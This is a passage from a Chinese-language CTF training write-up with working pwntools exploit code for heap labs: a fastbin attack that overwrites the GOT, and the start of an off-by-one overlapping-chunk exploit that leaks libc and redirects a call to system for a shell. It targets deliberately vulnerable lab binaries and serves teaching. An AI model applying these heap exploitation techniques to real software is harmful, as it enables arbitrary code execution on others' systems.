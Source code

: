 ```python
    #  pause()
    remove(1) # 1 -> 0
    remove(0) # 0 -> 1 -> 0

    magic = ELF("./secretgarden").sym["magic"]
    #  fakeChunk = 0x602028 + 2 - 8
    fakeChunk = 0x602000+2-8

    Raise(0x50, p64(fakeChunk)) # 0
    Raise(0x50, "111") # 1
    Raise(0x50, "000")
    #  DEBUG()
    #  payload = cyclic(8 - 2) + p64(magic) * 8
    payload = cyclic(8 + 8 - 2) + p64(magic) * 2
    Raise(0x50, payload)

    io.interactive()
    io.close()

```

- 以上的 exp 实现了通过 fastbin attack 来修改 got, 实际上通过 fastbin attack 来修改 \_\_malloc\_hook, \_\_realloc\_hook, \_\_free\_hook, IO\_file\_plus 结构体中的 jump\_table 也是很常见的做法, 尤其是程序开了 Full Relro 保护时
- pwnable.tw 的 Secret Garden 一题就用到了以上几种做法, 可以参考这篇 [writeup](http://tacxingxing.com/2018/02/20/pwnabletw-secretgarden/)
- 参考了 [veritas501](https://veritas501.space/2018/03/27/调教pwndbg/) 师傅的文章, 我在我的 [fork](https://github.com/0x01f/Pwngdb) 里也加入了快速利用 fastbin attack 的函数 fake\_fastbin\_all


### lab13-heapcreator

在 edit\_heap 中有一个故意留下来的 off-by-one，并且不是 off-by-one null byte，因此我们就可以有很大自由度地控制下一个 chunk 的 size, 可以使用 extended chunk 这种技巧造成 overlapping chunk，进而通过将 \*content 覆写为某函数的 got (如 free/atoi) 就可以 leak 出 libc 的地址，然后再改写为 system 的地址，控制参数即可 get shell

关于 extended chunk 的介绍可以看这个 **[slide](https://github.com/M4xW4n9/slides/blob/master/pwn_heap/advanceheap-160113090848.pdf)**

```python
lab13 [master●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context.log_level = "debug"

def create(size, content):
    io.sendlineafter(" :", "1")
    io.sendlineafter(" : ", str(size))
    io.sendlineafter(":", content)

def edit(idx, content):
    io.sendlineafter(" :", "2")
    io.sendlineafter(" :", str(idx))
    io.sendlineafter(" : ", content)

def show(idx):
    io.sendlineafter(" :", "3")
    io.sendlineafter(" :", str(idx))

def delete(idx):
    io.sendlineafter(" :", "4")
    io.sendlineafter(" :", str(idx))

```